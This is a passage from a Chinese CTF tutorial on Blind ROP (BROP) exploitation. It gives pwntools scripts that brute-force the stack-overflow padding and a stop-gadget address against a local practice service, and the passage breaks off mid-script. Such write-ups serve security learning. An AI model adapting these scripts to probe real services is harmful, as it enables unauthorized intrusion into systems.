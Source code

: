 # ROP-BROP


BROP即Blind ROP。如果当题目没有给出二进制文件的时候，就得通过BROP的方式盲打。大概的思路如下：

- （确定有栈溢出的存在）通过依次增加输入数量，确定何时可以覆盖返回地址

# 确定溢出长度（padding）

脚本如下：

```python
from pwn import*
def getsize():
    i = 1
    while 1:
        try:
            p = remote('127.0.0.1',9999)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            p.send(i * b'a')
            data = p.recv()
            p.close()
            if not data.startswith(b'No password'):
                return i-1
            else:
                i+=1
        except EOFError:
            p.close()
            return i-1

size = getsize()
print("size is [{}]".format(size))
```

这里减一是因为程序出错的时候以及覆盖了retn地址，但是我们只希望padding填充满rbp的位置即可。

![img](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/1698912621847-add41e9a-dd23-4def-80c2-d543dee098d7.png)

结果如上，说明需要填充72个字符。

# 寻找stop_gadgets

stop_gadgets可以理解为main的地址或者__libc_start_main的地址。我们不能让payload执行完直接退出，为了多次执行，必须找到一个可以返回的地址。

```python
from pwn import *
 
length = 72
 
def getStopGadgets(length):
	addr = 0x4005b0
	while 1:
		try: 
			sh = remote('127.0.0.1',9999)
			payload = 'a'*length +p64(addr)
			sh.recvuntil("know password?\n")
			sh.sendline(payload)
			output = sh.recvuntil("password?\n")
			sh.close()
			print("one success addr 0x%x:" % (addr))
			if not output.startswith('WelCome'):
				sh.close()
				addr+=1
			else:
```